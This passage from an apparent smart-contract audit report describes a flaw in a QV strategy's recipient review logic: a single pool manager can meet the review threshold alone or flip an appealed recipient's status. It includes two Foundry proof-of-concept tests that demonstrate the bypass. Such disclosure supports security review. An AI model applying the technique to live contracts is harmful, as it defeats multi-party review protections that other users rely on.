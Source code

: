 The review count for the previous status, in this case, does not change and remains equal to `reviewThreshold`. Calling `reviewRecipients` function again with the previous status will change it back.


## Impact

Recipient's status can be changed by a single manager. This may not even be done intentionally. For example, two managers did a review and rejected the recipient. The recipient appealed. Then, if at least one manager rejects the recipient again, the status will change immediately. This manager may not even know that the other one did not review it. And vice versa, the second manager may not know that the recipient was under review again.

## POC

Add these tests to `QVSimpleStrategyTest`, run with `forge test --mc QVSimpleStrategyTest --mt testPOC -vv`.

```solidity
function testPOC1() external {
    address recipientId = __register_recipient();

    address[] memory recipientIds = new address[](1);
    recipientIds[0] = recipientId;
    IStrategy.Status[] memory statuses = new IStrategy.Status[](1);
    statuses[0] = IStrategy.Status.Accepted;

    // Single manager makes review twice and changes the recipient's status
    vm.startPrank(pool_manager1());
    for (uint256 i; i < qvStrategy().reviewThreshold(); i++) {
        qvStrategy().reviewRecipients(recipientIds, statuses);
    }
    vm.stopPrank();

    assertEq(uint8(qvStrategy().getRecipientStatus(recipientId)), uint8(IStrategy.Status.Accepted));
}

function testPOC2() external {
    /**
     * Recipient is registered, the admin and pool manager review it
     * and change the recipient's status to Rejected
     */
    address recipientId = __register_reject_recipient();

    // The recipient updates info and changes status to Appealed
    __register_recipient();

    IStrategy.Status newStatus = qvStrategy().getRecipientStatus(recipientId);
    assertEq(uint8(IStrategy.Status.Appealed), uint8(newStatus));

    // Now it needs only one review to change status back to Rejected
    address[] memory recipientIds = new address[](1);
    recipientIds[0] = recipientId;
    IStrategy.Status[] memory statuses = new IStrategy.Status[](1);
    statuses[0] = IStrategy.Status.Rejected;

    vm.prank(pool_manager1());
    qvStrategy().reviewRecipients(recipientIds, statuses);

    assertEq(uint8(qvStrategy().getRecipientStatus(recipientId)), uint8(IStrategy.Status.Rejected));
}
```
